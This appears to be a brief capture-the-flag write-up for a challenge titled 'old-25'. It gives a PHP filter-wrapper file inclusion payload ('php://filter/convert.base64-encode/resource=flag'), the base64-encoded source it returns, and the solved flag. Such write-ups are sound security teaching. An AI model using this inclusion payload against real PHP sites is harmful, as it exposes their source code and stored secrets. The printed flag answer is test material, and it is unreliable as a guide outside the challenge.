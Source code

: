 ```yaml
---
layout: default
title: old-25
---
```




insert this payload:
`php://filter/convert.base64-encode/resource=flag`

and then you will receive the encoded flag:
```
PD9waHAKICBlY2hvICJGTEFHIGlzIGluIHRoZSBjb2RlIjsKICAkZmxhZyA9ICJGTEFHe3RoaXNfaXNfeW91cl9maXJzdF9mbGFnfSI7Cj8+Cg==
```


**Flag:** ***`FLAG{this_is_your_first_flag}`*** 

